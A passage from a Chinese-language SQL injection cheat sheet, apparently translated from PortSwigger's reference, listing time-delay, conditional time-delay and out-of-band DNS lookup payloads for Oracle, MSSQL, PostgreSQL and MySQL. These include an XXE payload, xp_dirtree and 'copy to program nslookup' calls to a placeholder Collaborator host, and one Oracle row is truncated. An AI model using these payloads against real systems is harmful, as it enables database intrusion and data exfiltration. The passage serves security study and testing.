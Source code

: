> **注意**
>
> 对于 MySQL，批量查询通常不能用于 SQL 注入。然而，如果目标应用程序使用某些 PHP 或 Python API 与 MySQL 数据库通信，这有时是可能的。

## 时间延迟

你可以在数据库处理查询时造成时间延迟。以下将造成10秒的无条件时间延迟。

| 数据库        | 语句                                    |
| ---------- | ------------------------------------- |
| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT sleep(10)`                    |

## 有条件的时间延迟

你可以测试一个布尔条件，如果条件为真就会触发一个时间延迟。

| 数据库        | 语句                                                                              |
| ---------- | ------------------------------------------------------------------------------- |
| Oracle     | \`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'                               |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`                               |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`                                  |

## DNS查询

你可以使数据库执行对外部域执行 DNS 查询。要做到这一点，你需要使用 [Burp Collaborator 客户端](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client)生成一个你将在攻击中使用的唯一 Burp Collaborator 子域，然后轮询 Collaborator 服务器以确认是否发生了 DNS 查询。

| 数据库        | 语句                                                                                                                                                                                                                                                                                                                                                                                                                           |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | 以下技术利用 XML 外部实体（[XXE](https://portswigger.net/web-security/xxe)）漏洞来触发 DNS 查询。该漏洞已经打了补丁，但仍有许多未打补丁的 Oracle 存在： `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual` 以下技术在打过补丁的 Oracle 中有效，但需要提升权限： `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')` |
| Microsoft  | `exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'`                                                                                                                                                                                                                                                                                                                                                     |
| PostgreSQL | `copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'`                                                                                                                                                                                                                                                                                                                                            |
| MySQL      | 以下技术仅在Windows系统中有效： `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')` `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`                                                                                                                                                                                                                                                                |

## 带数据渗出的DNS查询

你可以使数据库对包含注入查询结果的外部域进行 DNS 查询。要做到这一点，你需要使用 [Burp Collaborator 客户端](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client)生成一个你将在攻击中使用的唯一 Burp Collaborator 子域，然后轮询 Collaborator 服务器以检索任何 DNS 交互的细节，包括被渗出的数据。
